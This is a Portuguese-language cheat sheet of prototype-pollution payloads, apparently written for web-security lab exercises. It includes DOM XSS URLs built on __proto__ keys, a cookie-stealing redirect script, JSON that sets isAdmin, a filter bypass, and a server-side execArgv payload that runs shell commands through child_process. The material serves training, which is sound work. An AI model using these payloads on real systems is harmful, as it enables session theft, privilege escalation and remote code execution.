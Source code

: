 # Prototype Pollution

Recomenda-se utilizar a extensão DOM-Invader do navegador do BurpSuite para encontrar essa vulnerabilidade.

Também surge em arquivos como: `searchLogger.js`, `searchLoggerAlternative.js` and similar `searchLogger`....

![image](https://github.com/user-attachments/assets/04d7ef6d-eb64-49b4-a92b-59d02a5f4ae3)

Se aparecer no Client-Side será utilizado para roubar cookies. No Server-Side será utilizado para escalar privilégios.

<br>

## Laboratórios

**DOM XSS via Client-Side Prototype Pollution**
```
https://site.com/?__proto__[transport_url]=data:,alert(1)
```
<br>
<br>

**DOM XSS via an Alternative Prototype Pollution Vector**
```
https://site.com/?__proto__.sequence=alert(1)-
```

<br>
<br>

Client-Side Prototype Pollution via Flawed Sanitization
```
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
```

<br>
<br>

Client-Side Prototype Pollution in Third-Party Libraries
```
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
```

Stealing cookie:
```
<script>
    location="https://0a910062039513c584de01ab0009004f.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
```

<br>
<br>

**Client-Side Prototype Pollution via Browser APIs**
```
https://site.com/?__proto__[value]=data:,alert(1)
```

<br>
<br>

Privilege Escalation via Server-Side Prototype Pollution
```
{
...
    "__proto__": {
        "isAdmin":true
    }
}
```

<br>
<br>

**Detecting Server-Side Prototype Pollution without Polluted Property Reflection**
```
"__proto__": {
 "status":555
}
```

<br>
<br>

**Bypassing Flawed Input Filters for Server-Side Prototype Pollution**

Tente esse exploit se você perceber o header `Express framework` ou `X-Powered-By`: Express na resposta.
```
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

<br>
<br>

**Remote Code Execution via Server-Side Prototype Pollution**
```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('cat /home/carlos/morale.txt')"
    ]
}
```

> [!CAUTION]
> Eu troquei o comando acima de 'rm' para 'cat' de propósito, para evitar que você copie o comando e delete o arquivo secret do exame. Nos laboratórios, de fato você precisará usar o comando 'rm'.

